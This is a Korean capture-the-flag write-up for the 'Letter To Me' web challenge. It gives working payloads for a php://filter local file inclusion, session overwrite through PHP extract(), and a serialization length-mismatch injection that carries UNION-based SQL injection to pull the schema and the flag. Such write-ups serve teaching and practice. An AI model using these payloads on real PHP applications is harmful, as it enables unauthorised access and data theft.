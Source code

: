 # Letter To Me (300 pts.)

![](./lettertome.png)


먼저 문제 사이트를 들어가서 register를 시도해보기로 했다.

![](./lettertome1.png)

무슨 문제 사이트인데 초대받은 사람만 가입할 수 있다고 한다.

근데 주소가 `http://lettertome.eatpwnnosleep.com/?page=register` 이렇다. 뭔가 LFI공격이 될 것같다.

`http://lettertome.eatpwnnosleep.com/?page=php://filter/convert.base64-encode/resource=main`

![](./lettertome2.png)

된다.

이제 소스를 모두 긁어올 수 있게 되었다.

그렇게 소스를 보면 `index.php`에 `extract`를 사용하는 부분을 볼 수 있다.

```php
<?php
   require "conn.php";
   @extract($_GET);
   @extract($_POST);

   $page = isset($page) ? $page : "main";
   if(preg_match("uploads", $page))
   {
      die("No hack");
   }
   session_start();
?>
```

`extract`는 php의 다른 변수들의 값을 바꿀 수 있기에 `$_SESSION[user]`에 `admin`을 넣는다.

근데 `session_start();`가 `extract`보다 밑에있다. 그렇다면 `$_SESSION`에 값을 넣을 수 없다.

해결방법은 간단하게 `?page=index`해주게 되면 `index`가 `index`를 부른다.

payload : `http://lettertome.eatpwnnosleep.com/?page=index&_SESSION[user]=admin`

`admin`으로의 로그인에 성공했으며 `admin`계정으로 계정을 생성할 수 있다.

![](./lettertome3.png)

이제 인젝션 공격을 할 수 있는 부분을 찾아보자.

### models.php

```php
<?php
 function add()
 {
    global $DB;
    $str = serialize($this);
    $str = $this->filter($str);

    $user = mysql_real_escape_string($this->user);
    $str = mysql_real_escape_string($str);
    $DB->execute("insert into notes values (\"${user}\", \"${str}\")");
 }

 function filter($str)
 {
    global $profanity_word_replace;
    $filter_word = array("s**t", "f**k", "as*", "bi**h", "H**l");
    foreach($filter_word as $word)
    {
       $replace = str_repeat($profanity_word_replace, strlen($word));
       $word = preg_quote($word);
       $str = eregi_replace($word, $replace, $str);
    }
    return $str;
 }

 function resolve_file()
 {
    global $DB;
    $id = $this->attached_file;
    if($id)
    {
      $DB->execute("select realname, path from files where id=${id}");
      return $DB->fetch_arr();
   }
   return NULL;
 }
 ?>
```
`$profanity_word_replace = '*' // conn.php`

`add`에서 `serialize`를 하고 `filter`함수를 실행한다.

`filter`에선 `word`를 검사하고 그걸 `profanity_word_replace`를 `repeat`하여 덮어버린다. ex) f\*\*k -> \*\*\*\*

`resolve_file`에선 `attached_file`에 들어간 값을 `id`로 `realname`, `path`를 가져오는데 여기서 sql injection이 가능하다.

문제는 `attached_file`에 어떻게 인젝션 코드를 넣을것인가이다.

먼저 `serialize`된 결과를 보자.

`O:4:"note":3:{s:4:"user";s:4:"asdf";s:6:"letter";s:6:"qwerqw";s:13:"attached_file";N;}`

`letter`에 f\*\*k을 적고 `profanity_word_replace`에
`asdf";s:13:"attached_file";s:161:"-1 union select group_concat(table_name,0x3a,column_name),group_concat(table_name,0x3a,column_name) from information_schema.columns where table_schema=database()";}`를 넣으면 인젝션 성공

> payload : http://lettertome.eatpwnnosleep.com/?page=send&letter=f**k&profanity_word_replace=asdf";s:13:"attached_file";s:161:"-1 union select group_concat(table_name,0x3a,column_name),group_concat(table_name,0x3a,column_name) from information_schema.columns where table_schema=database()";}

![](./lettertome4.png)

> table : LTOM_Fl3g, column : flag

> payload : http://lettertome.eatpwnnosleep.com/?page=send&letter=f**k&profanity_word_replace=asdf";s:13:"attached_file";s:40:"-1 union select flag,flag from LTOM_Fl3g";}

### Flag : SCTF{Enj0y_y0ur_0nly_life}
